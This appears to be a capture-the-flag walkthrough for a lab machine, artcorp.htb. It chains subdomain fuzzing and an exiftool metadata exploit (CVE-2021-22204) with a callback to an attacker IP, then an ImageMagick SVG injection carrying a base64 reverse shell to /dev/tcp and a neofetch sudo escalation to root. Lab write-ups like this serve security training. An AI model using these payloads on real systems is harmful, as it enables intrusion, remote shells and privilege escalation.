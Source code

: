 ## Meta

Difficulty: Medium

### User Flag

#### Foothold

```
rustscan -a artcorp.htb --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/af9596ba-2fe2-4d93-a5e0-4c03bb0021b9)

<br>

The website redirect us to artcorp.htb and seems to be static. We need to enumerate subdomains to find interesting things.

```
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://artcorp.htb' -H "Host: FUZZ.artcorp.htb" --hw 0
```

![subdomainEnumeration](https://github.com/b1d0ws/OSCP/assets/58514930/16fa3fb3-f049-402b-8a6f-fd66d1162986)

![website](https://github.com/b1d0ws/OSCP/assets/58514930/30d6f161-1c74-427f-bd2c-9247fc1114f7)

<br>

The subdomain has a feature that read metadata from images.  

![testPNG](https://github.com/b1d0ws/OSCP/assets/58514930/437c2d3c-4ce3-4e78-a5ca-56a40004bcdf)

<br>

Seems to be exiftool and we can prove that trying to upload some malicious metadata in images.

```
exiftool -Notes='<?php echo system('whoami'); ?>' test.png
```

![exiftoolTest](https://github.com/b1d0ws/OSCP/assets/58514930/31e6b90f-01df-48ab-8a22-cc46cf927d8f)

![exiftoolAttempt](https://github.com/b1d0ws/OSCP/assets/58514930/1fccc21c-c7fb-4e94-be38-e5531fa04a41)

![sourceCodeTest](https://github.com/b1d0ws/OSCP/assets/58514930/0417efd6-49e7-4110-8b5e-f539e94fa9f1)

<br>

Searching for exiftool vulnerabilities, we find [this exploit](https://github.com/UNICORDev/exploit-CVE-2021-22204).

```
python3 exploit-CVE-2021-22204.py -s 10.10.14.11 1337
```

![generatingExploit](https://github.com/b1d0ws/OSCP/assets/58514930/c9b00e7c-bedd-45ac-966c-0a69ce9c03be)

<br>

#### User Access

Using pspy to enumerate running process, we discover that /usr/local/bin/convert_images.sh is being running periodically.  

Reading this binary, we see it is using mogrify (a binary that belongs to Image Trick) to deal with files inside /var/www/dev01.artcorp.htb/convert_images/.

![pspy](https://github.com/b1d0ws/OSCP/assets/58514930/8b626a8d-98da-4c7d-a608-d5a84a43bf60)

![convertImages](https://github.com/b1d0ws/OSCP/assets/58514930/2aec8e68-1b73-4b64-be4b-18536dba2c71)

<br>

Searching exploits, [this article](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) shows how to exploit this case.

Create a rce.svg file with the payload above and put it on "convert_images" directory. The payload is a basic reverse shell in base64.

```
<image authenticate='ff" `echo L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgJj4vZGV2L3RjcC8xMC4xMC4xNC4xMS85OTk5IDA+JjEnCg==|base64 -d|bash`;"'>
<read filename="pdf:/etc/passwd"/>
<get width="base-width" height="base-height" />
<resize geometry="400x400" />
<write filename="test.png" />
<svg width="700" height="700" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink">
<image xlink:href="msl:rce.svg" height="100" width="100"/>
</svg>
</image>
```

![searchingExploit](https://github.com/b1d0ws/OSCP/assets/58514930/4bd023e3-b0d0-4c89-9aeb-24fbb09bd541)

![gettingUser](https://github.com/b1d0ws/OSCP/assets/58514930/206f4ba8-9b92-4fd6-b0bb-c40c0bdc29d1)

<br>

### Root Flag

sudo -l reveals that we can use neofetch as sudo and control XDG_CONFIG_HOME variable.  

To exploit this, we need to export XDG_CONFIG_HOME to our user config directory path and put a bash execution in it.

```
export XDG_CONFIG_HOME=/home/thomas/.config/

cat .config/neofetch/config.conf 
/bin/bash -p

sudo /usr/bin/neofetch \"\"
```

![privEsc](https://github.com/b1d0ws/OSCP/assets/58514930/fab81cda-481c-4d18-9bba-0ae6a4d3221c)
